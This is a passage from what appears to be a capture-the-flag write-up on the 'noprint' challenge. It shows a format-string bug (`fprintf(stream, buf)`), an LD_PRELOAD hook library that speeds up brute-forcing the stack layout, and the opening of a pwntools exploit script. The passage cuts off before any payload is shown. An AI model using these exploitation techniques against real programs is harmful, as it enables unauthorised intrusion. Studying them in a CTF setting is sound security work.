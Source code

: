 ```c
    fprintf(stream, buf);
  }
  exit(1);
}
```

To make myself more "interested", I wrote a hook library to reduce time bruteoforcing stack:
```c
// clang -shared -fPIC -masm=intel hook.c -fPIC -o hook.so
#include <bits/types/FILE.h>
#include <dlfcn.h>
extern int __fprintf(FILE *steam, const char *format);
extern void exit(int __status);

#undef fprintf

static int (*real_fprintf)(FILE *, const char *, ...) = (void *)0;

void __attribute__((constructor)) init() {
  if (!real_fprintf)
    real_fprintf = dlsym(RTLD_NEXT, "fprintf");
}

int __attribute__((naked)) fprintf(FILE *__restrict __stream,
                                   const char *__restrict __format) {
  asm("mov rcx, rsp\n"
      "cmp cx, 0x0108\n"
      "jne no\n"
      "mov rbx, qword ptr [rip + real_fprintf@GOTPCREL]\n"
      "jmp qword ptr [rbx]\n"
      "no:\n"
      "lea rdi, [rip+fmt]\n"
      "mov rsi, rsp\n"
      "call printf\n"
      "mov edi, 0\n"
      "call exit\n"
      "fmt:\n"
      ".asciz \"0x%lx\"");
}
```

Script:

```python
#!/usr/bin/env python
from pwn import *
from time import sleep
import threading
from concurrent.futures import ThreadPoolExecutor
import sys

context.binary = e = ELF("noprint")
libc = e.libc
gs_before = """

"""

gs = '''
b *fprintf
b *__execvpe+1426
b *__vfprintf_internal+221
'''


def start():
```